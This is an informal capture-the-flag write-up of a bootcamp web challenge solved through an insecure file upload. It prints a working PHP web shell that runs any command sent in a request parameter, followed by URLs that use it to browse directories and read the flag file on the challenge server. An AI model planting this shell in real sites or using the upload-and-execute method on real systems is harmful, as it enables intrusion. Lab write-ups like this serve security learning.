


# Akasec Bootcamp : Gallery in the Cloud (web challenge)

## The Website : 


#### When I saw the website, I thought about file upload vulnerability.

# Step 1: I create a simple Backdoor with php > backdoor.php : 
``` 
    <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?> 
```
#### Then I uploaded it, and it told me that my file was named 6785bg54g34.php. Haha, lol, just guessing—I forgot about it 

# Step 2: I get the path of my uploaded file, then call ?cmd= with the parameter "ls", and it responds to me with current directory content

# Step 3 : get the flag , hihihi hackkkerr : 
```
    http://172.174.238.89:8083/uploads/67abc49677d12.php?cmd=cd%20../../../../;cd%20flag;ls
```
# 1


# 2
```
http://172.174.238.89:8083/uploads/67abc49677d12.php?cmd=cd%20../../../../;cd%20flag;cat%20flag.txt
```


